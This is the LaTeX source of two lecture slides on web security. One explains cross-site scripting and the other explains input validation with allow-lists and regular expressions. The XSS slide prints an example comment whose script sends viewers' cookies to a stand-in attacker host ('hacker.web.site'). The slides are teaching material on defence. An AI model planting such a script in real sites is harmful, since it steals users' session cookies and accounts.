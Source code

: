\documentclass{beamer}
\begin{document}
\begin{frame}[fragile]{XSS}
  \begin{itemize}
  \item cf. guestbooks, wikis, blogs etc
  \item where comment includes script code
  \begin{itemize}
    \item e.g. to collect cookie details of viewing users
  \end{itemize}
  \item need to validate data supplied
  \begin{itemize}
    \item including handling various possible encodings
  \end{itemize}
  \item attacks both input and output handling
  \item attack code can be encoded in ASCII, exadecimal or UTF-8
  \end{itemize}

\begin{verbatim}
Thanks for this information, its great!
<script>document.location=
 'http://hacker.web.site/cookie.cgi?'+
 document.cookie</script>
\end{verbatim}

\end{frame}


\begin{frame}{Validating Input Syntax}
  \begin{itemize}
  \item to ensure input data meets assumptions
  \begin{itemize}
    \item e.g. is printable, HTML, email, userid etc
    \item warning: XML lol, zip bomb, png bomb
  \end{itemize}
  \item compare to what is known acceptable
  \item not to known dangerous
  \begin{itemize}
    \item as can miss new problems, bypass methods
  \end{itemize}
  \item commonly use regular expressions
  \begin{itemize}
    \item pattern of characters describe allowable input
    \item details vary between languages
  \end{itemize}
  \item bad input either rejected or altered 
  \end{itemize}
\end{frame}
\end{document}
